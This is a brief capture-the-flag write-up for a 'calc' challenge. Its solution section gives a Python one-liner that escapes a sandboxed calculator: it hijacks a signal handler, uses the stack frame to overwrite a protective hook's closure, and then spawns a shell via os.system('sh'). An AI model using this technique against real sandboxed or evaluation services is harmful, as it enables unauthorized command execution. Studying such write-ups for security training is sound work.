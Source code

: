 # calc

* Category: Misc
* Score: 499/500
* Solves: 3

## Description

A simple calculator to help you with your math homework.

## Solution

Get frames from signal handler and overwrite the `exit` function of `hook` by modifying its closure.

```python
0,(s:=__import__('sys').modules['_signal'],s.signal(2,lambda a,b:b.f_back.f_locals['hook'].__closure__[0].__setattr__('cell_contents',lambda x:0)),s.raise_signal(2),__import__('os').system('sh'))
```
